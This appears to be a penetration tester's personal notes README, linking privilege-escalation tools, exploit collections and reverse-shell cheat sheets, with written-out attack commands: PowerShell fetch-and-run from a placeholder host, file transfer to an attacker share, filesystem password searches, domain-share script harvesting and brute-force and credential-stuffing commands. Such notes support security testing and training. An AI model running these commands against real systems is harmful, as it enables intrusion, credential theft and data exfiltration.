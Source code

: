 # My notes

###### My General Notes.

  This notes contains link of tools, link of cheatsheets, Commands etc.

## Python pip

1. `Python2 -m pip YOUR_COMMAND` OR `pip2 YOUR_COMMAND`

2. `Python3 -m pip YOUR_COMMAND` OR `pip3 YOUR_COMMAND`

## Python3 server

1. Local server in current directory: `python3 -m http.server PORT`

2. Local server in specified directory:

    `python3 -m http.server PORT --directory DIRECTORY`

## Msfvenom CheatSheet

[MSFVenom - CheatSheet - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

## Peas Family

LinPeas and Winpeas located ate my [`Privesc_scripts`](https://github.com/CalegariMindSec/Privesc_scripts) repository.

[GitHub - carlospolop/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/carlospolop/PEASS-ng)

## Windows PrivEsc Scripts

[`My Privesc Scripts - Windows`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Windows_Privesc)

[PowerSploit/Privesc at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

[GitHub - 7Ragnarok7/Windows-Exploit-Suggester-2: A tool to recommend available exploits for Windows Operating Systems](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)

[GitHub - r3motecontrol/Ghostpack-CompiledBinaries: Compiled Binaries for Ghostpack (.NET v4.0)](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[GhostPack · GitHub](https://github.com/GhostPack)

### Windows PrivEsc Kernel Exploits

[Windows Exploits](https://github.com/abatchy17/WindowsExploits)

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

[Exploitdb-bin-sploits/bin-sploits at master · offensive-security/exploitdb-bin-sploits · GitHub](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)

### Windows PrivEsc CheatSheet

[Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

[Notes TCM Course](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

[PayloadAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Linux PrivEsc Cheatsheet

[`My Privesc Scripts - Linux`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Linux_Privesc)

[Linux Privilege Escalation - HackTricks Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[PayloadAllTheThings - Linux ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

### Windows Binaries

[LOLBAS Project](https://lolbas-project.github.io/)

### Unix Binaries

[GTFOBins](https://gtfobins.github.io/)

### Listerners (Better Alternatives to Netcat)

[Netpwn](https://github.com/anthares101/netpwn)

[Pwncat](https://github.com/calebstewart/pwncat)

### File Download - Windows

1. ```powershell
   certutil.exe -urlcache -f http://IP:PORT/FILE.exe FILE.exe
   ```

2. ```powershell
   powershell -c (new-object System.Net.WebClient).DownloadFile('http://IP:PORT/FILE', 'C:\FULL\PATH\FILE')
   ```

3. ```powershell
   powershell.exe -command iwr -Uri http://IP:PORT/FILE -OutFile "C:\PATH\FILE"
   ```

4. ```powershell
    powershell.exe wget http://IP:PORT/FILE -OutFile FILE
   ```

5. ```powershell
   powershell iex(new-object net.webclient).downloadstring('http://IP:PORT/FILE')
   ```

6. ```powershell
   Start-BitsTransfer -Source https://IP:PORT/FILE -Destination "C:\FULL\PATH\FILE"
   ```
7. ```python3
   impacket-smbserver share . -smb2support (Attacker Machine)
   copy C:\File\To\PATH \\AttackerIP\share\
   ```

### File Upload - Windows

1. ```powershell
   powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
   ```

### File Download - Linux

1. ```bash
   wget http://IP:PORT/FILE
   ```

2. ```bash
   curl http://IP:PORT/FILE -o FILE
   ```

### Python3 tty Shell Spawning

1. ```python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

2. ```python
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   ```

### Active Directory Exploitation

[GitHub - S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory.](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
[CME cheat sheet](https://wiki.porchetta.industries/)
[Kerberos Attack](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Reverse shell

[Reverse Shell Generator](https://www.revshells.com/)
[Reverse shell cheat sheet PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Find Passwords Linux

  *
      ```
      grep --color=auto -rnw '/' -ie "Password" --color=always 2>/dev/null
      ```

### Download Scripts From SBM Netlogon and Sysvol

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R SYSVOL --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R NETLOGON --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```

### FFUF Brute Force And Credential Stuffing

  * Brute Force - Example:
    ```
    ffuf -request req.txt -w xato-net-10-million-passwords-10000.txt -request-proto http -fc 401
    ```

  * Credential Stuffing - Example:
    ```
    ffuf -request req.txt -w user:FUZZ1 -w pass:FUZZ2 -request-proto http -mode pitchfork -x http://127.0.0.1:8080 -fc 401
    ```

### Kali Linux Windows Features

  * 1 ) [pwsh](https://www.kali.org/tools/powershell/) - Powershell Terminal
  * 2 ) [wine](https://www.winehq.org/) - Run Run Windows applications on Linux, BSD, Solaris
    * 2.1) [Install](https://techviewleo.com/how-to-install-wine-on-kali-linux/)
  * 3 ) [mono](https://www.mono-project.com/) - Mono is a software platform designed to allow developers to easily create cross platform applications
    * 3.1) [Install](https://linuxize.com/post/how-to-install-mono-on-ubuntu-20-04/)
  * 4 ) [ILspycmd](https://github.com/icsharpcode/ILSpy/tree/master/ICSharpCode.ILSpyCmd)
    * 4.1) [Install](https://www.nuget.org/packages/ilspycmd/)
    * 4.2) [Usage Example - HTB Support Machine Writeup]()
    * 4.3) **Command example:** ilspycmd FILE.exe -p -o /Path/To/File/
